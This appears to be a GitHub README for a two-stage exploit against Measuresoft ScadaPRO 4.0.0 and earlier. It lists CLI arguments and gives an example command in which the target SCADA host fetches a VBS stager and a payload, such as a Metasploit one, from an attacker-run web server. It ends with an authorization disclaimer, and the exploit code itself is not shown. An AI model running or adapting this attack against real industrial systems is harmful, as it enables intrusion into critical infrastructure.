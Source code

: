 # Measuresoft-ScadaPRO
2-staged exploit for vulnerability that arises in Measuresoft ScadaPRO 4.0.0 (and earlier) versions. <br>
This exploits doesn't perform RCE, which makes it unique it serves payload through the locally hosted web server. <br>
You should generate your own or metasploit payload in this directory which you want to be executed on remote scada host.

## Requirements
```
Python 3.x
Libraries:
argparse
requests
sys
os
```

## CLI parse explanation
```
rhost = remote host ip address
rport = remote host port used for exploitation
lhost = local (or remote) host which will be used to serve payload
lport = local (or remote) host port used for serving payload
payload_name = file name for payload served
stager_name = file name for vbs script which is stager
temp_folder = directory where vbs stager will be hosted
```
## Usage
`ALL ARGUMENTS MUST BE USED` <br>
Usage: `python3 exploit.py [rhost] [rport] [lhost] [lport] [payload name] [stager name] [temp directory]` <br>
Example: `python3 exploit.py 192.168.1.1 502 192.168.1.2 8080 payload.exe stager.vbs /tmp`

# Disclaimer
### Do not use this against targets that did not give you authorization to do it. I am not responsible for any misusage of this program.



  _________                  .___       
 /   _____/ ____ _____     __| _/____   
 \_____  \_/ ___\\__  \   / __ |\__  \  
 /        \  \___ / __ \_/ /_/ | / __ \_
/_______  /\___  >____  /\____ |(____  /
        \/     \/     \/      \/     \/ 

